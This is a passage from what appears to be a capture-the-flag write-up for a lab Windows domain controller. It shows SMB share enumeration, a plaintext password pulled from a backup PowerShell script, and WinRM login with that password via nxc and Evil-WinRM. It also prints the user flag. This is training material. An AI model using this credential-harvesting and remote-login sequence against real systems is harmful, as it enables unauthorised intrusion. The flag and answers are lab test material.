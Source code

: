 ```shell
SMB         10.10.11.35     445    CICADA-DC        NETLOGON        READ            Logon server share 
SMB         10.10.11.35     445    CICADA-DC        SYSVOL          READ            Logon server share
```

## Found emily.oscars password from Backup_script.ps1 file
The Backup_script.ps1 file located in the DEV share revealed credentials for the emily.oscars user account. This highlighted the risks of storing sensitive credentials in plaintext scripts.
```shell
$ smbclient //10.10.11.35/DEV -U 'david.orelious'   
Password for [WORKGROUP\david.orelious]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Mar 14 19:31:39 2024
  ..                                  D        0  Thu Mar 14 19:21:29 2024
  Backup_script.ps1                   A      601  Thu Aug 29 00:28:22 2024

                4168447 blocks of size 4096. 342599 blocks available
smb: \> get Backup_script.ps1 
getting file \Backup_script.ps1 of size 601 as Backup_script.ps1 (6.8 KiloBytes/sec) (average 6.8 KiloBytes/sec)
smb: \> exit

$ cat Backup_script.ps1                                                                                                                                    
$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```

## WINRM Pwned!
Using the newly obtained credentials, access was achieved via WINRM as emily.oscars. This provided a foothold on the target machine, enabling deeper exploration and privilege escalation.
```shell
$ nxc winrm 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'         
WINRM       10.10.11.35     5985   CICADA-DC        [*] Windows Server 2022 Build 20348 (name:CICADA-DC) (domain:cicada.htb)
WINRM       10.10.11.35     5985   CICADA-DC        [+] cicada.htb\emily.oscars:Q!3@Lp#M6b*7t*Vt (Pwn3d!)

*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> type user.txt
7070494894b463964b8cac9d1ef3feaf
```
